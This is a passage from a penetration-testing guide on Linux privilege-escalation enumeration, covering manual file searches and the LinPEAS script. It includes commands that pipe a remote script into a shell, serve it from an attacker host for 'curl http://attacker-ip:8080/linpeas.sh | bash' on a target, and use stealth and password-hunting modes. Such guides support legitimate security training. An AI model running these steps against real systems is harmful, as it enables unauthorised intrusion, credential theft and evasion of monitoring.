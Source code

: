 ```bash
ls -la /tmp                                  # Temporary directory (often writable)
ls -la /var/tmp                              # Alternative temporary directory
find / -writable -type d 2>/dev/null         # Writable directories
find / -name "*.txt" -o -name "*.log" -o -name "*.conf" 2>/dev/null | head -20  # Interesting files
```

### **Automated Linux Enumeration Tools**

#### **LinPEAS - Linux Privilege Escalation Awesome Script**

**What LinPEAS does:** Comprehensive automated enumeration script that checks for hundreds of potential privilege escalation vectors including SUID binaries, sudo misconfigurations, kernel exploits, and sensitive files.

**Why LinPEAS is essential:** Saves hours of manual enumeration, has extensive database of privilege escalation techniques, provides color-coded output for easy identification of high-priority issues.

```bash
# Download and run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# Direct execution (requires internet access)

# Alternative: Upload LinPEAS to target
# On attacker machine:
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8080

# On target machine:
curl http://attacker-ip:8080/linpeas.sh | bash
# Or
wget http://attacker-ip:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# LinPEAS with specific options
./linpeas.sh -a                              # All checks (including slower ones)
./linpeas.sh -s                              # Stealth mode (avoid some detection)
./linpeas.sh -P                              # Password hunting mode
./linpeas.sh -o SysI,Devs,AvaSof,ProCronSrvcsTmrsSocks,Net,UsrI,SofI,IntFiles  # Specific sections

# Why different LinPEAS modes matter:
# - All checks mode finds more vectors but takes longer
# - Stealth mode reduces detection risk
# - Password mode focuses on credential discovery
# - Specific sections allow targeted enumeration

# LinPEAS output analysis
# Red/Yellow: High priority findings
# Green: Possible findings worth investigating
# Blue: Informational findings
# Look for:
# - 95% and 99% PE vectors (high probability)
# - SUID binaries
# - Sudo misconfigurations
# - Writable files in system directories
# - Interesting group memberships
```

